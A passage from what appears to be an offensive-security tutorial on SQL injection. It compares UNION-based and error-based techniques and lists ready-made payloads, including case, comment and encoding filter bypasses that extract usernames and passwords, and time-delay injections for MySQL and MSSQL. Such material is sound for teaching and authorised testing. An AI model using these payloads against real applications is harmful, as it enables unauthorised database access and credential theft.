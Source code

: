 
### UNION vs Error-Based Comparison

| Feature | UNION-Based | Error-Based |
|---------|-------------|-------------|
| **Data Volume** | Multiple rows at once | Single value per query |
| **Visibility** | Results in normal output | Results in error messages |
| **Requirements** | Column count matching | Error display enabled |
| **Stealth** | More obvious in logs | Can appear as accidents |
| **Efficiency** | High (bulk extraction) | Low (iterative extraction) |

---

### Advanced UNION Techniques

#### Bypassing Filters
```sql
-- Case variation bypass
' uNiOn SeLeCt null,username,password,null FROM users-- //

-- Comment variation bypass
' UNION/**/SELECT/**/null,username,password,null/**/FROM/**/users--+

-- Encoding bypass (URL encoded)
'%20UNION%20SELECT%20null,username,password,null%20FROM%20users--%20//

-- Double encoding bypass
'%2520UNION%2520SELECT%2520null,username,password,null%2520FROM%2520users
```

#### Time-Based UNION (when output not visible)
```sql
-- MySQL time delay
' UNION SELECT null,IF(1=1,SLEEP(5),0),null,null-- //

-- MSSQL time delay
' UNION SELECT null,CASE WHEN 1=1 THEN (SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5, sysusers AS sys6, sysusers AS sys7, sysusers AS sys8) ELSE 0 END,null,null-- //
```
